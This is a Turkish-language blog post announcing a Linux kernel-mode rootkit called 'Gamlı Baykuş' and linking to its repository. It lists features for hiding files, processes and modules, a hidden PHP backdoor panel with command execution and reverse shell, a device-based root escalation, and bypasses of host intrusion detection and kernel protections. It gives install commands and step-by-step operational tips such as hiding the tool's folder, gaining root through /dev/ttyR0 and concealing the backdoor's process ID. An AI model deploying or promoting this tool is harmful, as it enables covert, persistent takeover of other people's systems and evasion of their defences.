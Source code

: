 ```yaml
---
title: Gamlı Baykuş Kernel Mode Rootkit v 1.0
layout: post
tags: [Linux,Kernel]
author: 0x00fy
---
```


Boş zamanlarımda uğraştığım bir projeydi yeni tamamlayabildim, Örnek olması açısından sizlerle paylaşıyorum. Bu da Rootkit Development Serimizin  Başlangıç yazısı oluyor bir nevi ,
Bundan sonraki yazılarımızda bir Rootkit'in Ne işe yaradığı , neler yaptığı hakkında ufak bir bilgi vererek başlangıç yapacağız. O zamana kadar esen kalın, Serimizin bir sonraki yazısında görüşmek üzere..


### GAMLI BAYKUŞ KERNEL MODE ROOTKİT


** PROJE GITHUB LINKI : https://github.com/0x00fy/Gamli-Baykus **



![Autro](autro.jpg)




**Kernel Mode Rootkit**

*Örnek Amaçlı Gliştirilmiş versiyondur, ilerleyen versiyonlarla daha farklı ve gelişmiş özellikler ile karşınızda olacak..*


**Test Edildiği Sistemler : Ubuntu 18.04 // CentOS 7.8.0**


### Özellikleri


**lsmod Üzerinde gözükmeyen LKM ler**

**Dosyalari gizleme**

**Klasörleri gizleme**

**Processleri gizleme**

**PHP arayuzu icin gizlenmis server portu**

**Farklı kullanıcıllardan root erişimi alabilmek için Bir device oluşturma.**

**HIDS Bypass (Agent Simth , Ossec , chrootkit , kstat , HiddenWall,lsrootkit)**

**Bypass Linux Kernel 3.15 x86 CR4 & CR0 pinning protections**

**Gizli PHP Arayuz (Porta Kurulu)**


### PHP Arayuz ozellikleri :

**Dosya sisteminde gozukmeme**

**Panel Anasayfa Guard (IP LOGGER)**

**CMD Komut calistirma**

**Bind Port Reverse Shell**


### Helper

```

sudo gamlibaykus --[PARAMETRE] [OPSIYON]


Gamli Baykus Kernel Mode Rootkit v1.0
[http://modebit0.info]

--file [Gizlenecek Dosya]
--process [Gizlenecek Process ID]
--rootdevice [Device Keyi]
--phpbackdoor [Port Number]

===[Kisa Opsiyonlar]===

-f [Dosya ismi]
-p [Process id]
-r [Devicekey]
-b [port number]

```

### Kurulum :

```
git clone https://github.com/0x00fy/Gamli-Baykus.git

cd Gamli-Baykus

chmod 777 *

sudo ./install.sh


```

### Kullanım Klavuzu ve Hatırlatmalar

Herşeyden önce kurulum yapıldıktan sonra --file parametresini kullanarak Tüm LKM lerin ve yardımcı araçların bulunduğu /var/baba klasörünü gizlemeyi unutmayın 

Gizlemek : sudo gamlibaykus -f /var/baba


Farklı kullanıcılardan Root Yetkisi almak için bir device oluşturduğunuzda Root yetkisine ulaşmak için `echo "GİRDİĞİNİZ DEVİCE KEYİ" > /dev/ttyR0 `

 Komutunu çalıştırmanız yeterli olacaktır..
 

Php backdoor arayüzü kurmak için sudo gamlibaykus -b [PORT NUMARASI] şeklinde çalıştırıp Arayüzü kurduktan sonra Terminalinize output olarak düşen Process ID sini gizlemeyi unutmayınız !


### İYİ EĞLENCELER !!
